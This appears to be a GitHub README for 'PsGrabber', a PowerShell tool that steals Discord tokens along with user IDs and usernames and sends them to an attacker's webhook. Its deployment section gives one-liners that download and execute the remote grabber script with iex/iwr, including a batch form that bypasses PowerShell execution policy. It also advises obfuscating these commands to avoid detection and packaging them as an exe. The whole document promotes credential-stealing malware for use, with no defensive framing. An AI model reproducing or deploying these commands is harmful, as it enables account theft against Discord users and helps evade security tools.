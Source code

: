 ![Logo](https://i.ibb.co/Vtx5jqF/Capture.png)

    
# PsGrabber
A Discord token grabber that exfiltrates tokens to a webhook written in powershell



<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#features">Features</a>
    </li>
    <li>
      <a href="#deployment">Deployment</a>
    </li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
    <ul>
        <li><a href="#authors">Authors</a></li>
    </ul>
  </ol>
</details>


## Features

- Inbuilt token checker
- All data sent through a webhook
- Provives userID of tokens found
- Provides token type
- Provides the usernames of the tokens stolen
- Gives information on where the tokens stolen are stored

## Deployment

To effectivly deploy this project, choose one of these steps\
To avoid detection, the following commands should be Encoded using [Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)


#### Define HookUrl and use the payload as a powershell script
```powershell
$hookurl='';iex((iwr https://raw.githubusercontent.com/AROAH1337/PSGrabber/refs/heads/main/PSGrabber.ps1).content)
```

#### Convert to batch and then convert into an exe using a third party program
```batch
powershell.exe -NoProfile -ExecutionPolicy bypass -Command "$hookurl='';iex((iwr https://raw.githubusercontent.com/AROAH1337/PSGrabber/refs/heads/main/PSGrabber.ps1).content)"
```

## Troubleshooting

If you run into something about the Internet Explorer engine not being available or not having been run, give this a go:
```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Internet Explorer\Main" -Name "DisableFirstRunCustomize" -Value 2
```

## Acknowledgements

 - danielbohannon for The [obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) used in the program
  


## Authors

- [@MattOverthow](https://github.com/MattOverthrow/)

